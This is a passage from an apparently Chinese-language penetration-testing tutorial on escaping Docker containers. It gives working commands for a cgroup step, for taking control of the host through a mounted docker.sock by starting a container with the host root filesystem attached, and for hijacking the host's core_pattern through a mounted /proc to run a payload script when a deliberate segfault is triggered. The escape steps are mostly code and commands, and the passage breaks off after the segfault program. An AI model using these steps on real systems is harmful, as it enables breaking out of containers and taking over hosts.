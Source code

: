     
    
    sh -c "echo \$\$ > /tmp/cgroup/cgroup_2/cgroup.procs"

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210915101906.png)

#### 方式四：挂载docker.sock实现逃逸

当宿主机的docker.sock被挂载到容器内时，此容器可以通过docker.sock控制宿主机创建任意配置容器和控制正在运行的容器

    
    
     docker -H unix:///hack/docker.sock info  #通过此命令可以查看docker信息

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210915101907.png)

    
    
    docker -H unix:///hack/docker.sock run -it  --rm -v /:/test --name=docker_sock_taoyi2 centos  /bin/bash  #通过docker创建一个挂载宿主机根目录的容器  
    

创建成功。

#### 方式五：挂载/proc目录实现逃逸

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210915101908.png)

1、与cgroup相同，通过读取/etc/mtab获取uppdir= 后面跟随的路径。  

    
    
    sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210915101909.png)

2、此时容器内的 /exp.sh
对应宿主机/var/lib/docker/overlay2/5aad6c46857541101a54c64b8e92ac8495e4eecb6bbd6a76e24a0335be8d2d92/diff/exp.sh
文件。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210915101910.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210915101911.png)

3、挂载之后的文件，相当于共享。容器内外修改都会对应产生变化

    
    
    echo -e "|/var/lib/docker/overlay2/5aad6c46857541101a54c64b8e92ac8495e4eecb6bbd6a76e24a0335be8d2d92/diff/exp.sh \rcore " > /host_proc/sys/kernel/core_pattern  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210915101912.png)

4、容器内触发segmentation fault

    
    
    #include <stdio.h>  
      
    int main(void){  
    int *a = NULL;  
    *a = 1;  
    return 0;  
    }
